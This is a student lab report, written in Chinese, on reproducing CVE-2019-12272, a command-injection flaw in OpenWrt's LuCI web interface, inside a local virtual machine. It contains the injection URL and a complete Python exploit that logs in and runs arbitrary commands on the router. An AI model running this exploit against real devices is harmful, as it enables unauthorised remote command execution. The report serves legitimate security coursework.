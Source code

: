 
# 第四章 实验报告  

## 实验目的  
+ OpenWrt 已知漏洞利用复现  

## 实验环境

+ OpenWrt15.05.1

+ Chrome 浏览器开发者工具

+ Python

+ 虚拟机

## 实验要求  
 - [x] 复现 CVE-2019-1227漏洞  
 - [x] 编写一个漏洞利用程序  

## 实验过程

### 1、实验环境搭建

+ 与[第一章实验 OpenWrt on VirtualBox](https://c4pr1c3.github.io/cuc-mis/chap0x01/exp.html#openwrt-on-virtualbox) 的方法相同。

+ 安装成功！

  ![SuccessInstall](images/SuccessInstall.PNG)

+ 设置进行远程管理的的IP地址为 `192.168.56.22`

  ![IP](images/IP.PNG)

### 2、漏洞复现

+ 先使用管理员账号登录 `LuCI` ，再使用浏览器访问 `http://192.168.56.22/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞，再访问 `http://192.168.56.22/cmd.txt` 获取上一步命令执行的结果。

  ![cmd.txt](images/cmd.PNG)

### 3、漏洞利用

+ 通过 `Chrome` 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 `curl` 命令。

  ![Copy as curl](images/CopyAsCurl.PNG)

+ 通过 Chrome 浏览器开发者工具的「Copy as cURL (bash)」功能，将漏洞复现请求复制为`curl 命令` ，第三方网站 [将 curl 命令转换为 Python requests 代码](https://curl.trillworks.com/) ，再稍加改动添加继续访问 /cmd.txt 并打印服务器响应，得到示例如下：

  ```bash
  import requests

  cookies = {
    'sysauth': 'e5ec6a4422695d0ae1b82df8225b319d',
  }

  headers = {
      'Proxy-Connection': 'keep-alive',
      'Cache-Control': 'max-age=0',
      'Upgrade-Insecure-Requests': '1',
      'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36',
      'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
      'Accept-Language': 'zh-CN,zh;q=0.9',
  }

  response = requests.get('http://192.168.56.22/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0%5E$(ifconfig%5E%%5E3ecmd.txt)', headers=headers, cookies=cookies, verify=False)

  # added by human
  if response.status_code == 200:
      response = requests.get('http://192.168.56.3/cmd.txt')
      print(response.text)
  else:
      print("exp failed")
  ```

+ 代码执行结果：

  ![result](images/result.PNG)

### 4、python代码编写

  ```bash
  import requests
  from urllib.parse import urlparse
  import sys

  class CVE_2019_12272:
      def __init__(self, host = '192.168.56.22'):
          self.host = host
          self.stok = ''
          self.cmd = ''
          self.luci_username = 'root'
          self.luci_password = '123456789'
          self.sysauth = '24a291bfb814f167de7eeb086effd969'
          self.cookies = ''
          self.headers = {
              'Connection': 'keep-alive',
              'Pragma': 'no-cache',
              'Cache-Control': 'no-cache',
              'Upgrade-Insecure-Requests': '1',
              'Origin': self.host,
              'Content-Type': 'application/x-www-form-urlencoded',
              'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
              'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
              'Referer': 'http://192.168.56.22/cgi-bin/luci',
              'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
          }
        
      def login(self):
          data = {
          'luci_username': self.luci_username,
          'luci_password': self.luci_password
          }
          url = 'http://{host}/cgi-bin/luci'.format(host = self.host)
          response = requests.post(url, headers=self.headers, data=data, verify=False, allow_redirects=False)
          self.cookies = response.cookies
          Location = response.headers['Location']
          self.stok = urlparse(Location).params

      def shell(self, cmd = 'ifconfig'):
          self.cmd = cmd + '%3ecmd.txt'
          url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd})'.format(host = self.host, cmd = self.cmd, stok = self.stok)
          headers = {
              'Connection': 'keep-alive',
              'Pragma': 'no-cache',
              'Cache-Control': 'no-cache',
              'Upgrade-Insecure-Requests': '1',
              'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
              'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
              'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
          }
          response = requests.get(url, headers=headers, cookies=self.cookies, verify=False)

      def view(self):
          url = 'http://{host}/cmd.txt'.format(host = self.host)
          response = requests.get(url, headers=self.headers)
          print(response.text)

  if __name__ == '__main__':
      test = CVE_2019_12272()
      test.login()
      test.shell(sys.argv[1])
      test.view()
  ```

- 代码执行结果：

  ![](images/Attack.PNG)



## 实验问题

暂无


## 参考资料

+ [老师b站视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)

+ [移动互联网安全第四章实验](https://c4pr1c3.gitee.io/cuc-mis/chap0x04/cve-2019-12272.html)

+ [CVE-2019-12272 EXP 编写从零开始](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)


